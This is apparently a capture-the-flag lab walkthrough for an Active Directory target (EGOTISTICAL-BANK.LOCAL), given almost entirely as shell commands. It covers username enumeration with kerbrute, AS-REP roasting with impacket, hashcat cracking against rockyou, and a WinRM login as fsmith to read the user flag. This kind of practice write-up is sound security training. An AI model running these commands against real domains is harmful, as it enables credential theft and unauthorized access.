 ## TGT KERBRUTE ENUM
```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc <IP> users.txt
```

## TGT GETNPUSERS ENUM
```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users.txt
```

## USERS DICTIONARY (WEB ENUM)
```bash
nvim users.txt
hsmith
fsmith
hbear
scoins
btaylor
sdriver
skerb
```

## TGT KERBRUTE ENUM (NEW USERS.TXT)
```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc <IP> users.txt
```

## TGT GETNPUSERS ENUM (NEW USERS.TXT)
```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users.txt
```

## CRACKING KERBEROS HASH
```bash
hashcat --example-hashes | grep krb5asrep -B 10
hashcat -m 18200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

## GRANTED ACCESS FSMITH USER
```bash
crackmapexec smb <IP> -u 'fsmith' -p '<PASSWORD>'
crackmapexec winrm <IP> -u 'fsmith' -p '<PASSWORD>'
evil-winrm -i <IP> -u 'fsmith' -p '<PASSWORD>'
whoami
```

## FLAG USER.TXT
```bash
type C:\Users\FSmith\Desktop\user.txt
```
